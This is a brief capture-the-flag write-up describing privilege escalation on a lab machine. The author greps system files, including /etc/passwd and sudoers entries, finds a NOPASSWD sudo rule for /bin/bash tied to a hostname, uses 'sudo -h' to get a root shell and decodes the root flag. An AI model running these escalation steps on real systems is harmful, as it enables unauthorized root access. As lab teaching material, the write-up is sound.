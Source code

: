 We are connected to the SSH server.

We need to search in the `/` directory. We do a `cd /` to go to the `/` directory. And search all references to the word `harry` in all files.

```bash
grep -rni "harry" * 2>/dev/null

etc/passwd-:30:harry:x:1005:1005:Alice,,,:/home/harry:/bin/bash

etc/group-:52:harry:x:1005:

etc/sudoers.d/harry:1:harry strawgoh = (root) NOPASSWD: /bin/bash

etc/group:52:harry:x:1005:

etc/passwd:30:harry:x:1005:1005:Alice,,,:/home/harry:/bin/bash
```

We found a file named `sudoers.d/harry`. Who has permissions to execute `/bin/bash` as root. With hostname `strawgoh`.

```bash
sudo -h strawgoh /bin/bash
```

We are connected as root. We do a `cd /root` to go to the `/root` directory. And we do a `ls -al` to see the files in the directory.

```bash
cd /root
ls 

root.txt

cat root.txt
```

We put the text in ([CyberChef](https://icyberchef.com)) and we decode the string.

We found the root flag. It was encoded multiple times.